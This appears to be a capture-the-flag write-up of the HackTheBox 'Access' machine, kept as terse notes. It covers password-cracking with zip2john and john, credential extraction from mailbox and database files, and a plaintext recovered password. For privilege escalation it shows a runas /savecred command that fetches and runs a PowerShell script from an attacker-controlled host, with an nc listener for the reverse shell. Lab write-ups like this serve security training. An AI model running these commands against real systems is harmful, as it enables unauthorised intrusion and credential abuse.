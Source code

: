 # ACCESS
10.10.10.98 

## User
Gobuster wildcard response found:

http://10.10.10.96/a1f3d8cd-3e99-428d-9c15-741636949ce

Unzipping a Password Protected File and Error: unsupported compression method 99

```
Requires "p7zip"
```

Tried cracking using john the ripper

```
zip2john <file.zip> > hash.txt
john --format=zip hash.txt
```

Found that using TRACE on a HTTP server can lead to Cross-Site Tracing attacks XST

```
But NMAP was wrong, the HTTP server rejects TRACE commands
```

Found a password to the zip file in the backup.mdb by usings strings

Found a tool called "readpst"

Converted the file to mbox and found details:

```
john@megacorp.com
security@accesscontrolsystems.com

4Cc3ssC0ntr0ller
```

Trying the different permutations give login:

```
security
4Cc3ssC0ntr0ller
```

On the 10.10.10.98 Telnet server. This provides access to the command line


## Root

CMDKEY shows the saved credenials of a user

This means, I think we can use the

```
runas \savecred"
```

Command to run root commands

By running a reverse shell as the admin, we could get priv esc


You need a web server for the payload download

```
python2 -m SimpleHttpServer
```

The listener for the reverse shell

```
nc -lvnp <PORT IN THE SCRIPT>
```


And the command run on the user to download the shell

```
powershell IEX (New-Object Net.WebClient).DownloadString('http://<ip_of_SimpleHttpServer/rv.ps1')
```

In total the command below ran the shell as admin

```
runas /savecred /user:ACCESS\Administrator "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.16/rv.ps1')"
```

This provided us with a root shell

